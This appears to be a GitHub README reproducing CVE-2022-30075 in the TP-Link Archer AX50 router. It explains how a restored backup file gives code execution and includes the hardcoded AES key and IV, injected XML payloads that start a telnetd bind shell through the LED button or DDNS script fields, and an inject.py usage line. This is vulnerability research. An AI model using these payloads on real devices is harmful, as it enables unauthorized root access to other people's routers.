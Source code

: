 # description

Reproduce CVE-2022-30075.

# status

* [x] Root cause analysis

* [x] Patch script

* [ ] Reproduce (due to the restore function triggering nvram -> not emulate yet)

# root cause analysis

## press the LED button

The root cause lies in the backup & restore function of the web portal. Encrypted XML files within the backup contains various configurations.
Upon decrypion of `ori-backup-user-config.bin`, a child element is found, binding the LED button's function to `/lib/led_switch`. 

```xml
<button name="led_switch">
<action>pressed</action>
<button>ledswitch</button>
<handler>/lib/led_switch</handler>
</button>
```

This vulnerability can be exploited to spawn a bind shell with `telnetd`:

```xml
<button name="exploit">
<action>pressed</action>
<button>ledswitch</button>
<handler>/usr/sbin/telnetd -l /bin/login.sh</handler>
</button>
```

After repacking the modified configurations, the restore function can be used. Upon reboot, pressing the LED button will execute the injected command,
enabling a telnet connection to the router for shell access.

## auto trigger via DDNS

[Detecting WAN IP with script](https://openwrt.org/docs/guide-user/services/ddns/client#detecting_wan_ip_with_script)

The injected command can be automatically triggered without pressing the LED button by exploiting the DDNS function. 
This function is primarily designed to update the IP address across different networks and often includes the capability to execute scripts.

```xml
<ddns>
    <service name="dyndns">
        <enabled>off</enabled>
        <retry_times>5</retry_times>
        <force_unit>hours</force_unit>
        <ip_network>wan</ip_network>
        <service_name>dyndns.org</service_name>
        <ip_source>network</ip_source>
        <retry_interval>60</retry_interval>
        <retry_unit>seconds</retry_unit>
        <check_unit>hours</check_unit>
        <check_interval>1</check_interval>
        <force_interval>72</force_interval>
        <interface>wan</interface>
    </service>
</ddns>
```

Thankfully, the script is typically included in the backup XML, allowing for the placement of the injected command there.

```xml
<ddns>
    <service name="pwn">
        <enabled>on</enabled>
        <interface>internet</interface>
        <ip_source>script</ip_source>
        <ip_script>/usr/sbin/telnetd -l /bin/login.sh</ip_script>
        <check_interval>1</check_interval>
        <check_unit>hours</check_unit>
        <retry_interval>60</retry_interval>
        <retry_times>5</retry_times>
        <retry_unit>seconds</retry_unit>
        <force_interval>72</force_interval>
        <force_unit>hours</force_unit>
    </service>
</ddns>
```

## backup file 

Below is the structure of the backup file.

```mermaid
flowchart TD
    A[ori-backup-user-config.xml] --> |AES Encrypt| B[ori-backup-user-config.bin];
    C[ori-backup-router-config.xml] --> |AES Encrypt| D[ori-backup-router-config.bin];
    E[ori-backup-ap-config.xml] --> |AES Encrypt| F[ori-backup-ap-config.bin];
    G[ori-backup-certificate.xml] --> |AES Encrypt| H[ori-backup-certificate.bin];
    B & D & F & H --> I;
    J[md5sum] --> K{zlib compress};
    I{tar compress} --> K;
    K --> |AES Encrypt| L[backup-Archer AX50-2024-04-19.bin];
```

The AES mode used here is CBC with the following key and IV employed at all stages:

```
Key: 2EB38F7EC41D4B8E1422805BCD5F740BC3B95BE163E39D67579EB344427F7836
IV:  360028C9064242F81074F4C127D299F6
```

These can be easily retrieved using `strings squashfs-root/usr/lib/lua/luci/model/crypto.lua`.

# patch script

This script is used to inject a command as a DDNS service into the backup file.

```sh
./inject.py backup-Archer\ AX50-2024-04-19.bin '/usr/sbin/telnetd -l /bin/login.sh'
```

# refs

* [Tp-Link Archer AX50 Authenticated RCE (CVE-2022-30075)](https://github.com/aaronsvk/CVE-2022-30075)

